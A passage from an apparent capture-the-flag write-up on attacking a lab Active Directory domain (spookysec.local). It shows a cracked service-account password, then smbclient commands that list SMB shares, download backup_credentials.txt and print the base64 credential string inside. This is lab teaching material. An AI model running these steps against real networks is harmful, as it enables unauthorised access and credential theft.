 Once the process is complete, you will find the answer to the last question—the cracked password is `management2005`.

## Enumerating Shares
---

Now that we have valid credentials to access the domain, we can make an attempt to enumerate any shares that may be available in the domain controller.

We'll be using smbclient to map the remote SMB shares. To do that, use the following:

```cmd
┌──(ognard㉿kali)-[~]
└─$ smbclient -L \\\\spookysec.local\\ -U 'svc-admin'     
Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to spookysec.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

From this, we can see that there are 6 remote shares in the server listing. Next, we are going to check what's inside the `backup` share and see if we can answer the fourth question from there.

```cmd
┌──(ognard㉿kali)-[~]
└─$ smbclient \\\\spookysec.local\\backup -U 'svc-admin'
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3667197 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit
```

As you can see from the example above, there is a file called backup_credentials.txt that sounds promising. Once we get the file to our local machine and preview its contents, we can see that there is a base64 string:

```cmd
┌──(ognard㉿kali)-[~]
└─$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw 
```
